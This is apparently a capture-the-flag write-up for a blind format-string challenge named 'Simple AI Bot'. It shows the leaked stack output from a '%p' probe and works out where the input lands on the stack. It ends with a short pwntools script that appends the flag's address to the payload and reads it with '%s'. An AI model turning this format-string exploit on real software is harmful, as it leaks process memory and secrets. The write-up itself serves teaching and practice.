 # Simple AI Bot

Blind pwn suggested by @Rosayxy.

The input string goes through `printf(str)`:

```
Hi, what can I help you with today?
> %p%p%p%p%p%p%p%p
I'm sorry, I don't know about: 0x7fffb71d52f00x110xc00200000x7fffb71d5320(nil)0x70257025702570250x70257025702570250x373265313464000a

Is there anything what you want me to ask?
```

The data printed:

- Don't care:
    - 0x7fffb71d52f0
    - 0x11
    - 0xc0020000
    - 0x7fffb71d5320
    - (nil)
- Location of our `%p%p%p%p%p%p%p%p`:
    - 0x7025702570257025: 4x %p
    - 0x7025702570257025: 4x %p
    - 0x373265313464000a: data after 8x %p

Get flag address:

```
Hi, what can I help you with today?
> flag
The flag is safely stored in 0x57278f8c5040

Is there anything what you want me to ask?
>
```

Put flag address at the end of the input string, and use `%s` to print the contents:

```python
from pwn import *
context(log_level='debug')

p = remote("simple-ai-bot.ctf.zone", 4242)

p.recvuntil(">")
p.sendline(b"flag")
addr = int(p.recvuntil(">").split()[6], 16)
p.sendline(b"%p"*7+b"%s"+p64(addr))
p.interactive()
```

The order of args:

- %p prints arg 1: Don't care
- %p prints arg 2: Don't care
- %p prints arg 3: Don't care
- %p prints arg 4: Don't care
- %p prints arg 5: Don't care
- %p prints arg 6: %p%p%p%p
- %p prints arg 7: %p%p%p%s
- %s prints arg 8: the flag address is here

Solved!

